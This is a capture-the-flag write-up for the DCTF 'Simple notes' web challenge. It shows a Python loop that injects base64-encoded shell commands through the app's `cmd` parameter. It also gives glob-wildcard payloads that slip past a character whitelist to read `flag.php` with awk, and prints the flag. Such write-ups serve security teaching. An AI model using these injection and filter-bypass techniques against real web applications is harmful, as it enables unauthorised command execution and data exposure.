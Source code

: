 # Simple notes (web, 50p, 16 solved)

In the challenge we get access to some simple webapp, where each user gets his own sandbox and then we can theoretically upload `small files`, and there are some options to list our files.

If we look closely, the listing feature actually includes `cmd` GET parameter, which contains base64 encoded shell command.
This means we can do:

```python
import requests


def main():
    token = "HlGQedjDN9z4rFF2l2wUrpf551q2wjDI6mBXDwue"
    while True:
        url = "https://simple-notes.dctf-final.def.camp/router.php?token=" + token + "&cmd="
        payload = input(">")
        r = requests.get(url + payload.encode("base64"))
        print(r.text)


main()
```

To get a sort-off reverse shell.
There was a pretty strict whitelist of allowed characters, but since `ls -la *` was the "standard" command, you had at least those characters.

The idea was to figure out that you can upload only 1 byte-long files, and get RCE by sending `*` in a directory with a bunch of files with names which would combine into a shell command.

However, this was visible for other teams, and also a bit problematic, so we came up with an easier idea -> use shell wildcards to reach files we want.

First we listed all files via `ls -la /*/*` and found the flag location.
Then we created payload `/*a*/www/**/**/*.p*` to reach the flag file in `/var/www/html/flag/flag.php` and tried to reach some binary which could print the flag for us.

It took a moment, because with limited charset it's hard to reach the one particular binary you want, and most classic options like `cat` were not doable.
Finally we found that calling `awk 4 filename` will do the trick and we could get this one via `/*s*/*/aw* 4 /*a*/www/**/**/*.p*` and read the flag `DCTF{06246a82f83ee63876087293874010cde73a269d8d227605d50d238850faca0c}`

`https://owasp.org/www-community/attacks/Web_Parameter_Tampering`